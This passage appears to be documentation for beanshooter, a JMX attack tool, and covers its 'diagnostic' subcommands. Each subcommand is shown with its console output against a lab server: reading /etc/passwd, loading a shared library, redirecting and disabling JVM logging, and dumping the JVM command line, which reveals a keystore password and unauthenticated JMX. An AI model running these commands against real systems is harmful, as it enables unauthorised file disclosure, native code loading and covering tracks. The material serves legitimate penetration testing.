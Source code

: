 #### Diagnostic Read

The `read` operation can be used to read textfiles on the *MBean* server. The operation uses the
`addCompilerDirective` method to cause an exception that contains the contents of the specified
text file:

```console
[qtc@devbox ~]$ beanshooter diagnostic read 172.17.0.2 1090 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

This technique was originally implemented by [@TheLaluka](https://twitter.com/TheLaluka) within the
[jolokia-exploitation-toolkit](https://github.com/laluka/jolokia-exploitation-toolkit).

#### Diagnostic Load

The `load` operation can be used to load a shared library from the file system of the *JMX server*:

```console
[qtc@devbox ~]$ beanshooter diagnostic load 172.17.0.2 1090 /lib/x86_64-linux-gnu/libc.so.6
[+] The server complained about the missing function Agent_OnAttach
[+] The specified library was loaded succesfully.
```

#### Diagnostic Logfile

The `logfile` action can be used to change the logfile location of the *JVM*:

```console
[qtc@devbox ~]$ beanshooter diagnostic logfile 172.17.0.2 1090 /tmp/test.log
[+] Logfile path was successfully set to /tmp/test.log
```

#### Diagnostic Nolog

The `nolog` action can be used to disable logging (useful to close the logfile handle):

```console
[qtc@devbox ~]$ beanshooter diagnostic nolog 172.17.0.2 1090
[+] Logging was disabled successfully.
```

#### Diagnostic Cmdline

The `cmdline` action prints the cmdline the *JVM* was launched with:

```console
[qtc@devbox ~]$ beanshooter diagnostic cmdline 172.17.0.2 1090
VM Arguments:
jvm_args: --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -Dignore.endorsed.dirs= -Dcatalina.base=/usr/local/tomcat -Dcatalina.home=/usr/local/tomcat -Djava.io.tmpdir=/usr/local/tomcat/temp -Djava.rmi.server.hostname=iinsecure.example -Djavax.net.ssl.keyStorePassword=password -Djavax.net.ssl.keyStore=/opt/store.p12 -Djavax.net.ssl.keyStoreType=pkcs12 -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.local.only=false -Dcom.sun.management.jmxremote.authenticate=false -Dcom.sun.management.jmxremote.port=1090 -Dcom.sun.management.jmxremote.rmi.port=1099
java_command: org.apache.catalina.startup.Bootstrap start
java_class_path (initial): /usr/local/tomcat/bin/bootstrap.jar:/usr/local/tomcat/bin/tomcat-juli.jar
Launcher Type: SUN_STANDARD
```
